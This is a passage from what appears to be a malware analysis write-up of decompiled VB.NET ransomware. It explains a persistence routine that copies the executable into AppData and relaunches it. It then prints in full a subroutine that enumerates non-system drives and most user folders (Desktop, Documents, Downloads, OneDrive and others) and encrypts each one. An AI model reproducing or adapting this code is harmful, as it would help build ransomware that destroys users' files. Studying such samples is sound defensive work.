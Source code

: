     -   The condition `If friendlyName <> processName OrElse location <> text2` checks if the current name or location of the executable differs from the targeted ones.
    -   `If Not File.Exists(text2)` checks if the target executable already exists. If not, it is copied over, and a new process is started.
    -   If the file exists, it is deleted and recreated, then a new process is started from this file.
4.  **Starting a New Process**:
    
    -   `Dim processStartInfo As ProcessStartInfo = New ProcessStartInfo(text2)` creates a configuration to start a new process.
    -   `processStartInfo.WorkingDirectory = text` sets the working directory for the new process.
    -   `New Process() With { .StartInfo = processStartInfo }` creates a new process, and if the start is successful, `Environment.[Exit](1)` terminates the current process.

In summary, this subroutine attempts to copy the current executable to the user's application data folder and start a new process from there. This might be used for persistence techniques, where a software wants to ensure it remains active or restarts after a system reboot.

### lookForDirectories

Many points in this section.

```
Private Shared Sub lookForDirectories()
	For Each driveInfo As DriveInfo In DriveInfo.GetDrives()
		If driveInfo.ToString() <> "C:\" Then
			Program.encryptDirectory(driveInfo.ToString())
		End If
	Next
	Dim text As String = Program.userDir + Program.userName + "\Desktop"
	Dim text2 As String = Program.userDir + Program.userName + "\Links"
	Dim text3 As String = Program.userDir + Program.userName + "\Contacts"
	Dim text4 As String = Program.userDir + Program.userName + "\Desktop"
	Dim text5 As String = Program.userDir + Program.userName + "\Documents"
	Dim text6 As String = Program.userDir + Program.userName + "\Downloads"
	Dim text7 As String = Program.userDir + Program.userName + "\Pictures"
	Dim text8 As String = Program.userDir + Program.userName + "\Music"
	Dim text9 As String = Program.userDir + Program.userName + "\OneDrive"
	Dim text10 As String = Program.userDir + Program.userName + "\Saved Games"
	Dim text11 As String = Program.userDir + Program.userName + "\Favorites"
	Dim text12 As String = Program.userDir + Program.userName + "\Searches"
	Dim text13 As String = Program.userDir + Program.userName + "\Videos"
	Program.encryptDirectory(text)
	Program.encryptDirectory(text2)
	Program.encryptDirectory(text3)
	Program.encryptDirectory(text4)
	Program.encryptDirectory(text5)
	Program.encryptDirectory(text6)
	Program.encryptDirectory(text7)
	Program.encryptDirectory(text8)
	Program.encryptDirectory(text9)
	Program.encryptDirectory(text10)
	Program.encryptDirectory(text11)
	Program.encryptDirectory(text12)
	Program.encryptDirectory(text13)
	Program.encryptDirectory(Environment.GetFolderPath(Environment.SpecialFolder.ApplicationData))
	Program.encryptDirectory(Environment.GetFolderPath(Environment.SpecialFolder.CommonDocuments))
	Program.encryptDirectory(Environment.GetFolderPath(Environment.SpecialFolder.CommonPictures))
	Program.encryptDirectory(Environment.GetFolderPath(Environment.SpecialFolder.CommonMusic))
	Program.encryptDirectory(Environment.GetFolderPath(Environment.SpecialFolder.CommonVideos))
	Program.encryptDirectory(Environment.GetFolderPath(Environment.SpecialFolder.CommonDesktopDirectory))
End Sub
```
